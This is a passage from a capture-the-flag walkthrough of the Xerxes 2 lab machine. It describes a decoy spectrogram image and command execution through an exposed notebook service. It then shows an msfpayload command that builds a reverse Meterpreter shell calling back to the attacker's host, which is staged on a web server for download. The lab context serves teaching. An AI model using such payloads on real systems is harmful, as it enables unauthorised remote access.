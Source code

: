 

* * *





## Windowlicker


What is interesting about this MP3 is not what you can hear, but what you can see in the waveform. Much like the demon face in Windowlicker by Aphex Twin, here we have a hidden image in the spectrogram. If you want to know how to find this, take a look at [this Lifehacker article](http://lifehacker.com/5807289/how-to-hide-secret-messages-and-codes-in-audio-files).

[![xerxes2_001](http://fourfourfourfour.co/wp-content/uploads/2014/08/xerxes2_001.png)](http://fourfourfourfour.co/wp-content/uploads/2014/08/xerxes2_001.png)

This, however, is just a diversion. The image is of [Xerxes](http://shodan.wikia.com/wiki/Xerxes) from System Shock 2, but the whole MP3 is an easter egg - but a cool one none the less ! Let's move on.



* * *





## If You're Not Taking Notes, You're Not Learning.


So, with port 4444 crossed out, lets have a look at some other ports. 8888 is my next target, which returns nothing if you netcat to it, but provides an Python based Notebook application. This page also gives us an insight into the name of one of the users - delacroix.

[![xerxes2_002](http://fourfourfourfour.co/wp-content/uploads/2014/08/xerxes2_002.png)](http://fourfourfourfour.co/wp-content/uploads/2014/08/xerxes2_002.png)

It is possible to run commands through this application by creating a new notebook, and prefixing all commands with !. As an example, I've created a new notebook and have run the whoami command in the screenshot below (you'll note that id didn't work)

[![xerxes2_003](http://fourfourfourfour.co/wp-content/uploads/2014/08/xerxes2_003.png)](http://fourfourfourfour.co/wp-content/uploads/2014/08/xerxes2_003.png)

At this point I decided to be sneaky and make this download and run a reverse Meterpreter binary... I created my binary using msfpayload, hosted it on an internal HTTP server, and then set up a multi/handler to accept the connection.


``` bash

root@pwk:~# msfpayload linux/x86/meterpreter/reverse_tcp lhost=192.168.0.110 lport=4444 x > xerxes_4444
Created by msfpayload (http://www.metasploit.com).
Payload: linux/x86/meterpreter/reverse_tcp
 Length: 71
Options: {"LHOST"=>"192.168.0.110", "LPORT"=>"4444"}
root@pwk:~# cp xerxes_4444 /var/www
```

